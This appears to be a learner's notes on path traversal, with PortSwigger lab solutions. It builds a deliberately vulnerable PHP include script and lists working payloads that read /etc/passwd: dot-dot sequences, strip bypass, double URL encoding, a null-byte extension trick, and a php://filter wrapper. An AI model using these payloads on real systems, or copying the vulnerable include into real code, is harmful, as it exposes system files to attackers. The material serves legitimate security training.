 Ok he started wit an example showing a php file that he creates, and cointaining this


So when you do this he creates a variable called "filename" and it makes petitions to something called 'filename'

The echo is forcing to the path called "example/dir"  to the destiny of the query 
The "."  concatenates the path with the variable called filename
```
<?php 
   $filename= $_GET['filename'];
   echo include("example/dir/" .           $filename);
?>
```

So he creates a dir called example inside another called "dir" and inside three files html

example>dir>1.hml,2.html,3.html

and he made a php server with this command

php -S 0.0.0.0:80


Now on the http://localhost he searches the files with the next way 
http://localhost/?filename=2.html
http://localhost/?filename=1.html
http://localhost/?filename=3.html


so if you put something that isnt exist like
http://localhost/?filename=fweiojfiowe
nothing happens


So, if you put the variable ../../../../../../../../../../etc/passwd it will retrocede to the root folder.

Some sanitizations are applied on the code like

```
php --interactive
php>echo str_replace("../","")
```
The code;

```
<?php 
   $filename= $_GET['filename'];
   $newfilename = str_replace("../","",$filename);
   include("example/dir/" . $newfilename);
?>
```

Buy you can pass this with 
"....//....//....//....//....//etc/passwd"

Now , lets go to the exercises

#  File path traversal, simple case #

 This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

Solution:

Left click on the image and make this query

```
https://0a53006e030530ec836e612a005a008b.web-security-academy.net/image?filename=../../../../../../../../../../../etc/passwd
```
Better if you intercept the petition and modify the "GET" petition

# Lab: File [path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences blocked with absolute path bypass #

This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


So on this case we must specify the "absolute path" it is not necessary to put ../../../  putting just /etc/passwd it's enough


```
GET /image?filename=/etc/passwd HTTP/2
```

# WRAPPER EXPLANATION #

localhost/?filename=php://filter/convert.base64-encode/resource=cmd.php

this interprets the cmd.php file and gives us the result on the screen


# Lab: File [path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences stripped non-recursively#

This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


you try ../../../../../ 

and .. 
"no such file"

/etc/passwd

"no such file"

sometimes works this wrapper

file://etc/passwd

"no such file"

we can try this:

....//....//....//....//....//....//....//....//

and we have the etc passwd

```
GET /image?filename=....//....//....//....//....//....//....//....//etc/passwd
```

# File [path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences stripped with superfluous URL-decode#

This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


This way us double url encoding.. first the / and then the % resulting of the url encoding

```
GET /image?filename=..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd HTTP/2
```

# File [path traversal](https://portswigger.net/web-security/file-path-traversal), validation of start of path#

This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


The solution: you must put the pat traversal after /var/www/images/
```
/image?filename=/var/www/images/../../../etc/passwd
```


# File [path traversal](https://portswigger.net/web-security/file-path-traversal), validation of file extension with null byte bypass#

This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

SO this one needs that the extension be on the end, In this case .jpg

To solve this we insert a null byte on the end

```
/image?filename=../../../../../../../../../../../../../../../../../../etc/passwd%00.jpg
```